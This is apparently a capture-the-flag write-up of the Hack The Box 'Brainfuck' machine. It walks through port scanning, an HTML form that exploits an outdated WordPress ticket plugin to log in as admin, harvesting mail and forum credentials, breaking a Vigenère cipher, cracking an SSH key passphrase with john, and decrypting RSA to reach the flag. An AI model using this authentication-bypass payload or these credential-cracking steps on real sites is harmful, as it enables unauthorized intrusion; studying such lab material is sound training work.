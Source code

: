 ```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) UIDL PIPELINING AUTH-RESP-CODE CAPA USER TOP RESP-CODES
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 more capabilities OK ENABLE listed IMAP4rev1 post-login Pre-login LOGIN-REFERRALS SASL-IR ID LITERAL+ IDLE have
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after:  2027-04-11T11:19:29
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So this box have ssh, mail services and https, let's start by enumerating https

<br/>

When I go to https://10.10.10.17 there's a warning and I can check the certificate, in this certificate I can find a mail address orestis@brainfuck.htb, and two DNS names: www.brainfuck.htb and sup3rs3cr3t.brainfuck.htb, I'll add this to /etc/hosts

<br/>

brainfuck.htb is a wordpress site and sup3rs3cr3t.brainfuck.htb is a forum

<br/>

I'll start by enumerating wordpress with wpscan

```bash
$ wpscan --url https://brainfuck.htb/ --disable-tls-checks
```

There's wp-support-plus-responsive-ticket-system that is outdated and have some exploits, i'll use this one: https://www.exploit-db.com/exploits/41006

<br/>

So I create a file with the extension .html and i put this:

```bash
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="orestis@brainfuck.htb">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Now set up a server with python

```bash
sudo python3 -m http.server 80
```

![brainfuck1](/images/htb-brainfuck/brainfuck1.png)

Now I'll click in login and after a while it's blank so I'll go to https://brainfuck.htb and I'm admin

<br/>

Now let's go to Settings -> Easy WP SMTP and there's a password that can be seen with dev tools

![brainfuck2](/images/htb-brainfuck/brainfuck2.png)

So I have smtp credentials for orestis, let's login using evolution

![brainfuck3](/images/htb-brainfuck/brainfuck3.png)

![brainfuck4](/images/htb-brainfuck/brainfuck4.png)

![brainfuck5](/images/htb-brainfuck/brainfuck5.png)

In the inbox there are two mails

![brainfuck6](/images/htb-brainfuck/brainfuck6.png)

![brainfuck7](/images/htb-brainfuck/brainfuck7.png)

Now I have credentials for the forum orestis:kIEnnfEKJ#9UmdO, I logged in and there are 3 posts

![brainfuck8](/images/htb-brainfuck/brainfuck8.png)

And there's an ecrypted post

![brainfuck9](/images/htb-brainfuck/brainfuck9.png)

In the other post orestis everytime leaves a signature is this case is: Orestis - Hacking for fun and profit so the encrypted signature is Pieagnm - Jkoijeg nbw zwx mle grwsnn

<br/>

With rumkin using one time pad the key can be found

![brainfuck10](/images/htb-brainfuck/brainfuck10.png)

And now with the key we can decrypt the text using keyed vigenere

![brainfuck11](/images/htb-brainfuck/brainfuck11.png)

![brainfuck12](/images/htb-brainfuck/brainfuck12.png)

And the id_rsa key can be downloaded from that url

<br/>

The key is encrypted so let's crack it

```bash
$ sudo python /opt/ssh2john.py id_rsa > hash
$ sudo john --wordlist=/opt/wordlists/rockyou.txt hash
3poulakia!
```

And with the passphrase you can log in
```bash
$ ssh -i id_rsa orestis@10.10.10.17
```

<br/>

In the home directory there are the files:

```bash
$ ls
debug.txt  encrypt.sage  mail  output.txt  user.txt
```

This can be decrypted because they gave as p,q,e and ct

```bash
$ cat debug.txt 
7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
```

```bash
$ cat output.txt 
Encrypted Password: 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182
```

<br/>

I'll use this script to decrypt it changing the values

```python
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

def main():

    p = 7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
    q = 7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
    e = 30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
    ct = 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

if __name__ == "__main__":
    main()
```

And now decode the pt

```python
$ python
>>> y = 24604052029401386049980296953784287079059245867880966944246662849341507003750
>>> str(hex(y))
'0x3665666331613564626238393034373531636536353636613330356262386566L'
>>> '3665666331613564626238393034373531636536353636613330356262386566'.decode('hex')
'6efc1a5dbb8904751ce6566a305bb8ef'
```

<br/>

This is the root flag, I can't login as root so here the box finish
